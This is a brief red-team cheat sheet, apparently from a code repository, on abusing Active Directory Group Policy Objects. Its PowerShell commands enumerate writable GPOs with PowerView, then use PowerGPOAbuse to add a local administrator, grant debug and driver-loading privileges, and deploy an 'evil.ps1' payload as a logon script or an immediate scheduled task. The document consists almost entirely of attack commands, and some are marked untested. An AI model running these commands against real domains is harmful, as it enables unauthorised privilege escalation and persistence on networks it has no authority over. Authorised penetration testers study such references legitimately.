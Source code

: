 # Note:
*if connecting from a windows host:*
1. set DNS to the domain controller's IP
2. start a `runas.exe /netonly /user:<DOMAIN_FQDN>\<USERNAME> powershell.exe`
3. add `-domain` flag to every powershell module you use

# Find vulerable GPOs using PowerView [Github Raw](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

# Abuse GPO with PowerGPOAbuse [Github](https://github.com/rootSySdk/PowerGPOAbuse)
# Adding a localadmin 
```powershell
Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
```
# Assign a new right (not tested --> might break stuff)
```powershell
Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
```
# Adding a New Computer/User script (not tested)
```powershell
Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'
```
# Create an immediate task (not that reliable)
```powershell
Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
```